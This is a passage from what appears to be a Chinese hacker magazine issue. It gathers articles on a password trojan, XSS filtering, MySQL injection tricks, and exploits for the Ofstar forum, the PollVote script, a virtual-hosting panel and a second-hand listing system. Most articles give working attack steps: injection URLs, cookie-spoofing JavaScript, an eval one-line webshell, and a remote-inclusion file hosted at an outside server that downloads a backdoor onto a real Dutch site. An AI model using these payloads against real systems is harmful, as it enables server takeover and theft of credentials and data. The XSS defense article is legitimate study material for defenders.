下载了测试版放到虚拟机里面测试了一下，网友中的木马和军团侦察员 v1.2 的行为完全相同，可以断定这就是军团侦察员了。由于该软件是绿色软件，免安装，直接填写你的邮箱账户，所以只要你在电脑里面发现 getpsw.exe 中含有 max@juntuan.net 这个字符，就可以通过这个特征来寻找被修改特征码的军团侦察员了。

## 四、总结

偷号者利用军团侦察员 v1.2 可以避免自己的邮箱账号和密码被嗅探程序找到，但是忽略了该程序自身隐藏性不强的弱点，稍微有反毒相关知识的朋友都能轻松干掉这类木马。该木马已经上报给江民科技，病毒的名称是 Trojan/PSW.Small.j。不过这次的查杀还不够干净，没有查杀掉 psw.dll，大家可以手动解决。

> 小提示：Trojan 表示该程序属于木马程序一类；PSW 表示该程序主要是盗窃账号密码的；Small 就是江民科技对该程序定义的病毒名称；最后的 j 则表示该程序的某一个变种，通常变种的编号是由被截获病毒的先后顺序决定的。

【本文中涉及到的 WinHex、军团侦察员，在光盘中均有收录】

反毒经典步骤是最基本反毒技术，初学者可以通过本文学到相关的知识及基本方法。补充一点，虽然现在反毒软件技术水平有了提高，但和病毒技术的较量上始终处于下风，这就是为什么病毒出现后才能被有效查杀的原因了。

# 跨站脚本攻击防御之我见

剑心 [B.C.T]

最近一阵给一些网络上的程序找了下漏洞，发现危害比较大的是 SQL 注入和跨站脚本漏洞，其中出现得比较多的仍然是跨站脚本漏洞。包括现在网络上很多好的程序还是存在着过滤不严密等方面的问题，在一些小的程序中跨站脚本漏洞更是多如牛毛。尽管很多程序员都意识到跨站脚本漏洞的危害并且想办法做过滤，但总感觉他们过滤的思路都不清晰，导致过滤不是很好，总有那么一些空子可以去钻。在 BCT 学习了很长时间了，跟组织里的人如 Linzi 和李封都聊过关于跨站脚本方面的讨论，也总算有了一点自己的理解，今天就谈谈跨站脚本在写程序时该如何防御吧！

```asp
<%
str=trim(request("a"))
response.write str
response.write "<br>"
response.write "</img>"
%>
```

很简单的一个程序，就是把用户提交的内容直接显示出来和构造一个地址，由用户提交的 img 标签显示图片。很明显这没有经过任何的过滤，后面我们将模拟攻击这个程序来考虑该如何防御这种攻击。然后构造一个简单的提交表单：

```html
<form action=test.asp>
<textarea name=a></textarea>
<input type=submit value=test>
</form>
```

访问这个 html 并且在提示框里输入 `<script>alert("呵呵，漏洞！")</script>`，提交后就可以看到弹出对话框了，如图1所示。


## 一、漏洞的成因

尽管是讲烂了的东西，但是我还是先来讲讲跨站脚本的原理吧！用户提交的变量没有经过完整过滤 HTML 字符，或者根本就没有经过过滤就放到了数据库中，并且在一些地方又直接从数据库中取出来返回给来访问的用户，这就导致了跨站脚本漏洞的产生。因为一个恶意用户提交的 HTML 代码最终会被其他浏览该网站的用户访问，通过这些 HTML 代码也就间接控制了浏览者的浏览器，就可以做很多事情，例如窃取敏感信息，引导访问者的浏览器去访问恶意网站等等，这样就导致了跨站脚本漏洞的产生。

根据上面的说明我们大概清楚了漏洞是如何产生的，知道如何产生了我们就可以针对原因进行防御了。整个过程中用户提交的内容和用户的访问我们是无法控制的，我们能控制的也就是 CGI 程序如何去处理用户提交的数据。只要在用户提交的内容进入数据库之前进行有效的控制和处理，就可以不必担心数据对于浏览用户构成威胁了。但到底该怎么处理用户的数据呢？我看到很多程序都做了一些过滤，但是感觉都很杂乱，思路不清晰，有种隔靴搔痒的感觉，非常容易产生安全问题。这里我们来分析一下黑客是如何利用跨站脚本，以及导致漏洞的根本原因，也就知道了该如何处理用户的数据，从而避免跨站脚本漏洞了！

因为是 HTML 字符没有过滤，也就是说跨站脚本是对 HTML 的利用，那我们就从 HTML 的特性着手开始分析该过滤哪些字符吧（因为是小菜，分析得不好别 PK 偶）！我们知道 HTML 里的一些代码执行时都会有个叫做 HTML 标记的东西，也就是我们经常见到的 `< >` 这种。比如 `<script>` 这样的东西，当浏览器遇到一个以 `<` 开头的标签时就会认为产生了一个 HTML 标记，它就会用自己内部的机制去响应和解释这些标签。譬如 `<script>` 这样的内容一旦出现，浏览器将认为产生一个脚本标记并且将其后面的内容当作 JavaScript 来解释执行，直到出现 `</script>` 结束。我们可以看出浏览器的所有输出操作都是由这些 `< >` 标记控制的，它只是解释这些标记并且产生动作或者把结果返回给用户，其他的都当成普通字符显示。这样的话如果用户提交的内容是 `<script>alert("Test!")</script>` 并且没有任何过滤，然后又从数据库里取出来直接显示的话，就会在其他来访者浏览器里执行代码了，这里仅仅是弹出个对话框而已。为了方便演示，我这里用 ASP 写了一个简单的程序如下：

## 二、防止用户构造自己的 HTML 标记

由这个分析可以看出，我们第一个要过滤的就是用户提交变量中的 `<` 和 `>`，这样用户就不能按照他的意思产生 HTML 标记了，所以我们第一个要消灭的就是 `< >` 这俩罪魁祸首！这主要在一些文章系统以及 BBS 发帖子，还有就是留言本提交的留言中，需要进行过滤，因为这些程序都是直接从数据库中取出数据，然后一个 response.write 这样的形式（ASP 中）返回给用户浏览器的，如我们的演示程序。过滤代码：

```asp
replace(str,"<","&#x3C;")
replace(str,">","&#x3E;")
```

## 三、防止来自标签属性的攻击

好了，用户现在不能自己产生 HTML 标记了，是不是就可以安心了呢？当然不是。用户不能产生 HTML 标记，但是并不代表他不能在已有的 HTML 标记里进行动作，这样的例子就很多了，一不小心就会被利用！譬如 UBB 标签里的 `[img]code[/img]` 等当转换的时候会成为 `</img>`。看看，用户提交的 code 是不是在 HTML 标记里了。好吧，假设你过滤了用户提交内容中的 `<` 和 `>`，那我们看看是怎样的效果呢？图片地址是由用户控制的，我们输入 javascript:alert("剑心是好人！")，就会构造出这样的标记如下：

```html
</img>
</img>
```

是不是都完美地执行了！？如图2所示。


图2

这是因为用户提交的内容是在已有的 HTML 标记的属性里，而属性又支持 script 这样的形式，代码依然执行。当然不只是 img 有这个特性，因为今天是来讨论如何防御的，所以就不说其他的了，但是道理是一样的。看来光过滤 `<` 和 `>` 是没用的，用户利用已有的 HTML 标记照样跨站不误。来分析一下这样的跨站代码吧！用户不能产生自己的 HTML 标记了，现在我们防御现有标记的属性。因为恶意用户使用的是 javascript 这样的属性，所以我们控制好用户的输入中不要存在 javascript: 和 vbscript: 这样的内容就行。或者注意用户单独运行自己的跨站代码的话必须还有个 `:`，所以也可以干脆过滤其中的 `:` 代码，来试试吧！

```vb
@im: re
set re=new RegExp
re.ignoreCase=True
re.Global=True
re.Pattern="javascript:"
Str=re.replace(Str,"javascript")
re.Pattern="jscript:"
Str=re.replace(Str,"jscript")
re.Pattern="vbscript:"
Str=re.replace(Str,"vbscript")
set re=nothing
```

注意：中文的“：”是不起作用的。好了，似乎可以了，过滤掉 javascript 和 vbscript 后面的 `:` 是很有用的，但是我们知道 HTML 标签里的属性可以用转换了的 ASCII 字符来表示，譬如 `</img>`，转换 src 的属性内容部分为 ASCII 形式，变成 `</img>`，或者全部转换：`</img>`，转换成十六进制的也可以。注意，只有 HTML 属性可以这样做哦！像 `</img>
<a href=# onmouseover=alert("剑心要毕业啦！")></a>
```

看看，是不是都成功执行啦？如图4所示。看吧，攻击者没有提交 `<>` 字符，也没有用到 javascript 等标记，但是代码依然执行了！我们看看是怎么回事。原来攻击者用空格分离了前面的 src 属性之后，利用标记的事件机制启动他们的代码了，上面一个例子利用的是错误机制，后面的一个当鼠标从上面滑过的时候触发。知道了原理，如何防御也就出来了！攻击者要分离标签的属性，然后利用事件机制引发漏洞，我们破坏他的条件就可以啦！


图4

方法一是转换掉提交过来的空格字符：`replace(str," ","&#x20;");`  
方法二是用 `"` 将后面的提交内容限定为一个字符串，这需要编写程序的时候注意。看看效果哦！变成 `</img>`，这下子执行不了啦！？

如果你采用了第二种方法，那么你还有一点危险没有躲过去，如果用户提交的内容根本就有 `"` 呢？我们知道 `""` 之间的内容系统会把它当成字符串，所以我们提交这样的内容试试：`#" onerror=alert('Test_BY_Jnc') "`，变成 `</img>`，是不是又执行了？如图5所示。呵呵，看来我们能用的东西黑客一样能用，好说，转换掉它！`Replace(Str,"""","&#34;")`。如果你觉得还不够，那么属性里用到的一个东西是 `=` 号，保险点过滤了吧！代码是 `replace(str,"=","&#x3D;")`。


图5

## 五、打造自己的防线

再次整理一下我们的思路吧！先是要转换掉 `<>` 字符，让用户不能建立自己的 HTML 标记，然后防范已经有的 HTML 标记，通过过滤 javascript 和特殊字符 `&` 可以阻止用户修改标记的属性为 script，然后通过 `"` 和空格的过滤使用户不能引发事件机制和重建其他的属性，将用户的输入限制在一个字符串内。在 HTML 组成的战争里还是我们取得了胜利，呵呵。然后就是具体的过滤代码的编写了，很多教程致力于只允许用户输入某些字符，这样的确很安全，但是却妨碍了正常用户，毕竟不是所有的用户都像 BCT 的人那样喜欢找漏洞。最后有一点需要注意的是过滤的顺序，建议由内到外过滤，先过滤用户提交的 javascript 等后再转换 `&` 特殊字符，再处理其他的，因为本身其他的处理会产生 `&` 字符的。我写好的代码如下：

# 12月 西线无战事——安全黑洞

```vb
str = trim(str)
If IsNull(str) Then
    CheckStr = ""
End If
str = replace(str,"&","&#x26;")
str = replace(str,"""","&quot;")
str = replace(str,"=","&#x3D;")
str = replace(str,"<","&#x3C;")
str = replace(str,">","&#x3E;")
str = replace(str," ","&#x20;")
str = replace(str,"'","&#34;")
```

这里去掉了对 javascript 和 vbscript 后面的过滤，因为我们看到这种类型的攻击已经因为“:”的转换成为中文的“：”变得不能成功了，并且不会影响正常用户的输入和输出，你也可以自己加一些字符的过滤。这里给出的代码只是对跨站脚本攻击的防范，对其他的攻击如 SQL 等没有什么作用，请大家自己完善一下写出好的过滤代码。

到这里，跨站脚本应该是彻底地防御了，当你对真正的攻击原理了解的时候，做防御是不是不那么难了？其他的脚本防御思路是一样的，但这并不是你能彻底把页面封住，因为我们只能做到完美过滤，真正的难度在于你能确保你的每一个变量都能经过这次过滤。好了，第一次写这样的文章，网络上的牛人太多，有什么错误或者意见，欢迎到论坛指出，我的 ID 是剑心大人。

> 很不错的一篇防范跨站的文章。文章中的一些技巧能够起到防范跨站的作用。不过我仍然认为，作者对跨站的想法只是一味防范并不是很好。

功能丰富、代码简洁效率高、用户使用人性化，这些是程序员主要追求的，但忽视了安全；黑客对程序重视安全，但对于是否让用户得到最大方便，就考虑得不够周全。像有的用户在用留言本的时候，如果输出一个 `<` 或其它某个特殊字符却不能显示，往往会埋怨程序开发者。本文只是一味过滤限制用户输入，不太为用户考虑。我认为使用 HTMLEncode 这个函数会更好一点，不知作者认为如何？当然这就涉及到具体编程问题了：怎样让安全和程序人性化两者得到平衡。

## 无线服务区标识符（SSID）

通常每个无线网络都有一个服务区标识符（SSID），无线客户端需要加入该网络的时候需要有一个相同的 SSID，否则将被“拒之门外”。通常路由器/中继器设备制造商都在他们的产品中设了一个默认的相同的 SSID。例如 linksys 设备的 SSID 通常是“linksys”。如果一个网络不为其指定一个 SSID 或者只使用默认 SSID 的话，那么任何无线客户端都可以进入该网络。无疑这为黑客的入侵网络打开了方便之门。

## Mysql注入的一些特殊技巧

这篇文章的内容是看了 Xfocus Team 的《网络渗透技术》后总结出来的，在此先向《网络渗透技术》的作者致谢了。

### 一、Mysql的扩展功能

Mysql 有一个其它数据库软件没有的扩展功能，它可以使用 `/*!...*/` 这样的语句来实现各版本功能的兼容。比如这条 SQL 语句：`create /*!30000 tmp table*/ table user (a int);` 意思是如果 Mysql 的版本在 3.00.00 以上，那么就会创建 tmptable 这个表，否则注释就会起作用。利用这个特性可以确定 Mysql 的版本。

首先，我们利用这个扩展功能来确定当前的数据库是不是 Mysql，再提交：`read.php?id=1/*!30000%20s*/`，如果页面返回错误，就说明 Mysql 的版本在 3.0 以上，反之就在 3.0 以下。但是我们真正关心的是 Mysql 的版本是不是在 4.0 以上，因为只有 4.0 以上的版本才支持“Union”联合语句。提交：`read.php?id=1/*!40000%20s*/`，如果再次返回错误，那么就说明 Mysql 的版本在 4.0 以上了。当然你也可以用这种语句进行小版本的探测：`read.php?id=1/*!40016%20s*/`，显然，如果返回错误页面，就说明 Mysql 的版本在 4.0.16 以上，否则就是在 4.0.16 以下。

### 二、load_file()在FreeBSD上的目录遍历功能

FreeBSD 下因系统文件格式不同导致可以利用 `/` 进行目录列表攻击：如在 FreeBSD 下运行“cat /”或在 PHP Flame 下打开 `http://blinx.cn/phpdoor.php?act=file_edit_1&file=../bbs`，便可得到目录下的所有文件及文件夹（如图1）。因此，在 Mysql 注射时可以配合 `load_file()` 进行目录列表攻击。如：`read.php?id=1 union select load_file(0x2F)`（注：0x2F 为 `/` 的 hex 值）。

## 三、into outfile 写文件的功能

Mysql 的 `into outfile` 语句可以把 `select` 查询出来的数据导出到系统文件，例如：`select password from admin where userid=1 into outfile "d:/web/password.txt"`，利用这个查询语句可以把 password 的内容导出到 `d:/web/password.txt`。

用法就是：`read.php?userid=1 into outfile "d:/web/password.php"`。

## Ofstar论坛

## 直接获取 webshell 追杀漏洞简析

浅蓝的稻草鱼 -saiy- [s4t]

前段时间我分析和发布了一个 Ofstar 论坛读取任意文件和下载删除任意文件的漏洞后，本来并没有打算深究 Ofstar 论坛了，但终究因为一个灰暗的瞬间无所事事，所以继续读了一下该论坛代码。

```php
extract($_FILES, EXTR_SKIP);
extract($_COOKIE, EXTR_SKIP);
```

## 一、漏洞分析

Ofstar 是一款国内有名的 PHP+文本论坛，和 phpwind 是同属一家的作品……（此处为漏洞背景与补丁问题说明）

```php
global.php 的第21行（节选）
foreach($_POST as $key=>$value){...}
foreach($_GET as $key=>$value){...}
```

可能不会 PHP 的人会看不懂，我来给大家解释一下……（关于仅过滤 GET/POST 而未覆盖其他输入源的说明）

```php
if(ini_get('register_globals')) { ... }
```

原来，`$_COOKIE` 可以被注册为全局变量，那么你可以修改 cookie 来提交这两个符号了……（引出 search.php）

```php
第73行代码：
$keyword=safeconvert($keyword);
$keyword=rawurldecode($keyword);
$cachefile=rawurldecode($cachefile);
```

啊啊，我超级喜欢这个 rawurldecode……（继续分析变量拼接逻辑）

```php
if(!$cachefile){
  $cachefile=$keyword.$sch_time.$sch_area.$method.$seekfid;
}
```

HOHO，这句看到了就可以开始了……（说明可控 cachefile 变量）

```php
$resultdb=readover("userdata/cache/$cachefile.txt");
```

啊啊，把 `$cachefile.txt` 的内容读出来了……（关于截断与 rawurldecode 利用方式的结论）

# 西线无战事黑客手册

9 及以下版本的 PHP 了。关于这个可以去看黑锅（superihei）写的文章，www.4ngel.net，我们接着往下说。

说到这里就可以读任意文件了，大婶和 AH 都写了一个利用工具了，那我们继续往 shell 的目标前进。这次我们要读另外一个文件了。`acquire/search.php`，往最下面看，第84行：

```php
if($treadinfo)
    writeover('./userdata/cache/$cachefile.txt',$treadinfo,"ab");
```

假设有 `$treadinfo` 的话，就往 `/userdata/cache/$cachefile.txt` 写 `$treadinfo`。呵呵，看到这里就知道了，其实我要说的就是 `$treadinfo` 在搜索不到的情况下，我们也是可以手动提交的。

那么现在开始整理一下吧，写入的东西我们可以手动提交，写入的文件名我们可以手动提交，那么拿一个 webshell 呢？*^-^*，没看懂的同学罚从楼上再读一遍。

官方在这个时候又去出一个补丁，把 cookie 的全局变量去掉了，但是我们依然可以使用 POST 或 GET 里使用 chr 函数来绕过不可以使用的特殊符号。

不知道为什么，这些理论在官方测试的时候总得到非法操作，这个时候下载了旧一点的 2.1 版本才发现了代码原来有这么一行：

```php
function SafePath($Path){
    if(strpos($Path,'..')!==false)
        showmsg('非法操作，请返回...');
}
```

论坛的程序在这里使用了自定义的一个函数 SafePath 来检测提交的内容，假设里面有 `..` 就会显示非法操作，并且结束所有的操作，那么我们要做的就简单了。得到 webshell 的条件：

- 1. 本身可提交。
- 2. 漏洞利用 cachefile 和 treadinfo。
- 3. 搜索的关键词一定要搜索不到内容。
- 4. 搜索里写入的 shell 代码以及我们要生成的 shell 名里不可以有“..”（不可以上一个目录）。

## 二、漏洞利用

先构造一个本地的搜索表单，表单里多两个文本框，分别为 cachefile 和 treadinfo，在 cachefile 的文本框写你要写入 shell 的文件名（最好是不存在的文件）加上 `%00`，比如 `./saiy.php%00`。在这里要注意的是 shell 的代码不可以有美元符号 `$`，所以写的 shell 代码必须要有技巧了，我在这里写的代码是：

```php
<?fputs(fopen(chr(46).chr(47).chr(46).chr(46).chr(47)...),'w');?>
```

这段代码相当于 `<?fputs(fopen('../../bbsdata/fucksb.php','w'),'<?eval($_POST[cmd]);?>');?>`，就是在 bbsdata 目录下建立一个文件名为 `fucksb.php` 的文件，写入一句话后门，密码为 cmd；示例如图1所示。

提交后就会显示搜索结果（假设是一个很大的论坛，将会有好几次跳转），如图2所示。

这个时候我们就可以访问我们的“临时 shell”，浏览 `http://论坛位置/userdata/cache/文件名`，如图3所示。

假设没有报错的话，就证明生成了 webshell 了，我们再用这个 PHP 后门的 C 端访问 `http://论坛位置/bbsdata/fucksb.php`，就可以控制这个 webshell 了，如图4所示。

AH 写了一个关于这个漏洞的利用工具。假设大家还不明白，可以用来研究使用。此漏洞对官方版本依然有效，任何使用此工具和漏洞的不当行为与本人和《黑客手册》无关。

> 【文章里用到的搜索表单 search.html 和 AH 写的利用工具 Qfstar.exe，以及作者用到的 C/S 端的 PHP 后门 PHPdoor2.0.rar 已收录在本地光盘】

刚改这样的一篇文章。由于大家对 ASP 漏洞的热衷，相信不太懂 ASP 代码的人都可以紧随发现某一款 ASP 脚本代码的常规注入漏洞；如果不再是巧妙的利用方法，我相信再去常规分析那些类似的漏洞，读者都会有惺惺相惜的感觉。但 PHP 本身的安全性使其比较难以利用，所以看到直接获取 webshell 的漏洞，总是会感到比较新鲜。相信大家慢慢对 PHP&MySQL 的掌握，对 PHP 漏洞也会逐渐不再陌生。本文的精华之处在于：一个是分析出 Qfstar 的运转漏洞，另一个是对 `%00` 编码在 PHP 脚本作用中的深刻理解。

# 特战火烧到国外——轻松捕获大量国外肉鸡

2005年11月14日，国外著名安全网站 `marc.theaimsgroup.com` 公布了一个关于 PollVote 投票系统的安全公告，简略内容如下：

> List: bugtraq  
> Subject: PollVote Remote File Inclusion  
> From: stormhacker_@hotmail.com  
> Date: 2005-11-14 1:52:15  
> Title: PollVote Remote File Inclusion  
> Vulnerability Discovery: rUnViRuS  
>
> exploit:  
> `http://www.[host].com/[path]/pollvote.php?pollname=http://www.[host].com/CMD.gif?&cmd=ls`

PollVote 是一个在国外应用很普通的投票系统。通过这则安全公告可以看出，PollVote 的 `pollvote.php` 文件对“$pollname”没有进行必要的过滤，导致恶意用户可以通过“$pollname”在服务器上非法执行任意命令。这是一个很典型的 PHP 远程文件包含漏洞，漏洞的危害很大，利用方法却很简单。以下我们便来具体看看它的利用方法。

我们先要找到使用 PollVote 的网站进行测试，使用 Google 就是一个很不错的办法。在 Google 上搜索“pollvote.php?pollname”，从返回的结果中可以看到有许多国家的网站都在使用 PollVote 这套系统。这次我随便挑了一个荷兰的网站进行测试……先发信息测试一下这个网站上是否真的存在这个漏洞，方法是提交：`http://www.xxxxxx.nl/pollvote/pollvote.php?pollname=i.txt`。

要利用 PHP 的远程文件包含漏洞，我们最好先准备一个能够放置自己的 PHP 代码的网站。在 `http://blinx.512j.com` 上写一个文件 `creatfile.txt`，内容为：

```php
<?php
$f=file_get_contents("http://blinx.512j.com/phpdoor.txt");
$fp=fopen("11111.php","a");
fwrite($fp,$f);
fclose($fp);
?>
```

以上的几行代码的意思是：打开 `http://blinx.512j.com/phpdoor.txt`，同时在当前目录上创建一个 PHP 文件“11111.php”，并把“phpdoor.txt”里面的代码写到 11111.php 中。准备好后，就可以提交：`http://www.xxxxxx.nl/pollvote/pollvote.php?pollname=http://blinx.512j.com/creatfile.txt`，如果顺利的话，这时在目标目录上将会生成 11111.php 文件。

haha，Webshell 已经到手了，剩下提升权限的任务就交给读者自己完成了。同时，通过图3我们可以看到，pollvote.php 和生成的 11111.php 在同一个目录上。现在，来看看 pollvote.php 中造成远程文件包含漏洞的代码：

```php
<?php
/********************************/
Description: pollvote.php
Author: dbozic@v58.de (Ivo Bozic)
Licence: freeware
/********************************/
$GLOBALVARS = array();

$ips = array();
$timestamps = array();
// Functions
include ("./inc/pollfunctions.php");
if (isset($pollname)) {
    include($pollname);
}
// INITIALISIERUNG der GLOBALEN VARIABLEN
readPoll($pollname);
// Textbausteine
include ("./tpl/language.php");
```

正如前面所说的那样，pollvote.php 对“$pollname”变量没有进行任何的过滤，从而造成了这个严重的漏洞，但愿以后的程序员不再犯这种错误了。需要指出的是，在测试的过程中，有一些网站的 PHP `allow_url_fopen` 是关闭的，这样我们就不能够使用前面所说的方法利用这个漏洞了。可行的方法是 PHP 4.3.0 及以后的版本支持 `php://input` 和 `php://output`，这样 PHP 的文件处理函数就能够从 `php://input` 中直接读取 POST 里的数据，而且里面的单引号等不会被转义，因此我们能够直接在 `$pollname=php://input`，使其能利用 PHP 的远程文件包含漏洞了。

> 编辑部点评：该漏洞应当是 PHP 的一个常规远程包含文件漏洞，不过作者的 allow_url_fopen 利用方法确实新鲜。我不太懂 PHP，所以是第一次见。看了这篇文章后，又触到我的痛处了——自己英文太烂。看样子，学好英文、经常光顾国外好的安全网站，在国内就能做到先知先觉了。

# 饮马滇池无帅梦涯

当得到一些程序后台的管理权限，却发现权限被局限在后台之内，无法进一步突破，那么这时想到的往往是旁注。前两天我也碰到了一次这样的事情，通过两站访问彼此互通有无，成功地突破了限制，下面和大家分享一下。

开始之前，先说一下 ASP 虚拟主机系统的一些 SQL 注入点，如 `List.asp` 中的 id 参数、`Answer.asp` 中的 id 参数、`News.asp` 中的 news_id 参数等等，这些注入点都可以用构造的 Union 语句来得到管理员名称及密码。

```text
list.asp?id=aaa' union select 1,userid,3,4,userpwd,6,7,8,9,10,11 from admin union select * from sort where id='3
```

```text
http://127.0.0.1/answer.asp?id=1 union select 1,2,userid,userpwd,5,6 from admin
```

## 一、买票

在百度中以“域名注册”“联系方式”“关于我们”为关键字搜索虚拟主机系统网站，随后可找到注入点并得到管理员名称及密码。

## 二、上车

后台地址默认是 `admin/index.asp`，但这种虚拟主机后台可利用点不多。可利用创意广告中的后台功能泄露物理路径信息，并可由相对路径“../”转到上级目录。

## 三、转车

在虚拟主机系统内无法突破后台限制后，考虑旁注。通过 Domain.exe 查询同服务器上的其他站点（图3），再寻找可上传点并尝试利用论坛上传 GIF 格式 ASP 文件进行进一步渗透。

## 四、到站

再次回到虚拟主机系统的后台，打开“备份数据库”，其中的当前数据库路径是：“../data/data123.asp”，结合“主机环境”中的物理路径来推算，这个数据库的物理地址应该就是：F:\acc\data\data123.asp。而在相对路径中，使用一个“../”转到 acc 目录下，那使用两个“../../”就应该到 F 盘根目录下了。如果再转向论坛中的图片所在的目录，那图片的相对路径就应该是：../../ddtro/bbs/UploadFace/661_2005761472020366.gif。

将推算出的相对地址填入“当前数据库路径”，“备份数据库目录”不变，仍为“../Databackup”，“备份数据库”名称改为“dataaa.asp”。点“确定”，如图5所示，备份数据库成功！在地址栏内输入 Databackup/dataaa.asp，回车后大多看到这个 ASP 页面，就知道已经被后台权限限制了（如图6）。

输入密码打开 ASpAdmin.asp 后门（如图7），这是一款相当不错的 ASP 后门，它可以用流媒体的方式下载服务器上任一目录下的 20M 以内的文件，还可以非常方便地操作数据库，功能也是很强大的！最主要的一点还是这款 ASP 后门还未被大多数杀毒软件通缉。先用“FSO 文件浏览操作器”看一下服务器中有多少可利用的文件，首先进入 C 盘目录，看到有 WINNT 文件夹，说明是 Win2000 系统，进入 C:\WINNT\system32\inetsrv\Data 目录，测试了一下，可以写入文件。再进入 C:\Program Files\ 下，这里不仅有 Serv-U，还有 Symantec 文件夹，查了一下 Serv-U 是 5.0.0.4 版的，而 Symantec 则是 pcAnywhere 的目录文件名，有了这些东西，将权限再一次提升应该不是问题！

## 五、观光

既然到了目的地，当然要了解一下民风民情了！在 dataaa.asp 中写入 ASpAdmin.asp 的源码，填入绝对地址“F:\acc\databackup\data1bb.asp”，点保存，“save Success!”，成功写入。

看看天色也不早了，这次旁注之旅也该告一段落了。真可谓：邻家失窃，焉知从何而入？说不定就是从自家翻墙而过的！其实网络和现实是一样的，只有群防群治，才能打造安全的环境。

> 【文章中的相关工具 Domain.exe、GetDV71Path.exe、ASpAdmin.asp 已收录在本期光盘】

作者文章里提到找到了一个虚拟主机系统的漏洞利用方法，光忙计较身份就着手拿下站，GG 之旅了。作者在取得后台权限时，没有办法传文件时想到了旁注，成功上传再 copy 拿到了 webshell。

## 程序的漏洞，入侵的大门——西安二手信息发布系统SQL版多个漏洞

最近没事，就给一些程序找漏洞，但基本都是 asp+access 平台下的，也看到了国内程序员对于安全的重视，有的程序感觉还不错，但是有的问题就很多了。于是也打算找些 SQL 版的系统看一下安全性如何，还是跑到中国站长站上搜索 SQL 版，在推荐的行列里下了一个叫做西安二手信息发布系统的程序，看了下代码真的让人大跌眼镜，这样的程序放在网上实在是不能让人放心啊！这种稍微被掩饰的漏洞一旦暴露，从入侵得到 webshell 不需要 3 分钟！

### 一、SQL注入漏洞

这套程序是从 access 版本改过来的，很多参数的处理方式以及验证方式估计都是一样的，这也更说明了程序的安全性实在不太好。作为一个习惯，我们先来看看程序的参数是如何处理的吧！譬如 search.asp 中漏洞代码：

```asp
<%
dim rs,sql,tj,class1,class2,cnmai,diqu
set rs=server.createobject("ADODB.recordset")
key=request("keyword")
if request("page")="" then
    ThisPage=1
else
    ThisPage=request("page")
end if
...
dim ThisPage,Pagesize,Allrecord,Allpage,leixing
tj=0
sql="select * from xinxi where biaoti like '%"&key&"%' ..."
%>
```

```asp
memo like '%"&key&"%' or diqu like '%"&key&"%' order by id desc
rs.open sql,conn,1,1
```

看看，完全没有过滤，赶快在浏览器里提交：http://127.0.0.1/www/cnmaiqbsql/search.asp?keyword=jnc，结果如图1所示。

很明显，程序的作者估计考虑到了 SQL 注入攻击的存在，所以基本在可能的页面都包含了一个 checksql.asp 文件，也就是网上流传的通用防 SQL 注入脚本。呵呵，是不是有了这个脚本看门就没有 SQL 注入的骚扰了呢？其实那个通用防 SQL 注入脚本本身就过滤不严密，譬如在客户端的 Cookie 等就不在它的过滤范围之内。而我们知道程序取得的变量如果是用 request("id") 这样的形式的话，Cookie 也在搜索范围之内，不过顺序要低于 Form 和 QueryString 这两个集合，也就是我们说的 Post 和 Get 集合。现在我们不 Post 给服务器也不让服务器 Get 它需要的 keyword 变量的话，它还会寻找 Cookie 等里面的字段，这就绕过了通用防 SQL 注入脚本。具体做法就是增加 Cookie 里面一个 keyword 值，用 javascript 这样实现：

```javascript
javascript:alert(document.cookie='keyword=1' and user>0--')
```

这就设置了 Cookie，也就间接给 keyword 赋值 1' and user>0--，也就实现了注入。但是注意，在具体实践的时候不知道为什么空格会自己消失，不知道是不是 Cookie 变量的原因，所以我们操作的时候需要将 cookie 里面的空格换成 /**/，这在 SQL 语句里跟空格作用是一样的，还有就是表名那里变成这样的形式，如：

```javascript
javascript:alert(document.cookie='keyword=1/**/and/**/user>0--')
```

放到浏览器里执行，然后转到 search.asp，就可以看到数据库账户名暴出来了，如图2所示。

看看，仅有的一点防注入代码就这样被突破了。

在页面乱提交而已，但是不是每个人都那么好脾气的。那个 gonggao.asp 大概因为作者觉得比较隐蔽，不会有人注意，就完全没有过滤，可以直接去注入，只是地址栏里隐藏了地址，只能骗骗善良的人了。gonggao.asp 问题代码如下：

```asp
dim id,rs,sql
id=trim(request("id"))
if id="" then
  call list()
  response.end
end if
set rs=server.createobject("adodb.recordset")
sql="select * from [gonggao] where id="&cstr(id)
rs.open sql,conn,1,1
```

可以直接注入的，如图3所示。

## 二、后台 Cookie 欺骗漏洞

这才是最致命的漏洞，用 SQL 注入的话还要跑 md5 或者添加管理员，很麻烦的，看看后台怎么验证的吧！打开 admin/index.asp 就发现 include 了一个 cookie.asp，汗！不会是用 Cookie 验证的吧！那就太便宜我了，看看 cookie.asp 先！代码如下：

```asp
<%
if Request.ServerVariables("SERVER_NAME")<>request.cookies("admincnmai")("domain") then
  response.redirect "admin_login.asp"
end if
if request.cookies("admincnmai")("username")="" or request.cookies("admincnmai")("domain")="" then
  response.redirect "admin_login.asp"
end if
%>
```

真的是 Cookie 验证的啊，就用了 2 个 Cookie，cookies("admincnmai")("domain") 和 cookies("admincnmai")("username")，前者等于 ServerVariables("SERVER_NAME") 就行了，后者干脆不为空就行了。再看看其他地方还有没有验证语句，结果失望地发现，居然没有！太好了。还是用 javascript 语句搞定吧！

```javascript
javascript:alert(document.cookie='admincnmai=domain=127%2E0%2E0%2E1&username=cnmai;')
```

嘿嘿，运行后就可以直接进入后台了，试试直接访问 admin/index.asp，如图4所示。

### 三、后台拿webshell

这也许是大家最关心的问题，但是我要说的是这个后台拿 shell 太简单了，有上传有备份数据库功能（估计是 access 遗留下的产物），大家可以按传统办法搞定。但是我要说的是一个更简单的办法。到后台的基本设置里有很多信息让你设置吧！其实这些都是存储到文件里的，就是根目录下的 config.asp，看到没有，是 asp 的哦！知道怎么做了吧！在设置里插入一句话木马就可以啦！如图5所示，注意格式如下：

```asp
execute(request("#"))
a="
```

不然会出现 asp 错误访问不了。最后连接你的一句话木马，就是 /config.asp，连接结果如图6所示。当然你也可以按照你喜欢的办法拿 shell，万一按照上面的注入办法，发现一个 sa 的注入点你就发财啦！

这样的系统在网上还是很多的，估计 access 版一样存在这些问题。这是邪门歪道，别人的东西不能简单拿来就用，看着安全并不一定就是安全的。像今天这样的程序，得到 webshell 不用 3 分钟！漏洞还是老漏洞，程序却总是新程序，广大程序员的安全意识还是提高点好。

> 编辑部点评：剑心的水平好像越来越牛了。不太常见的 Cookie 注入绕过防注入脚本和 js 的轻巧 Cookie 欺骗，都在这篇文章里找到了例证，这又给大家在绕过防注入过滤时多了一个方法。

## ASP防注入程序3.0漏洞浅析

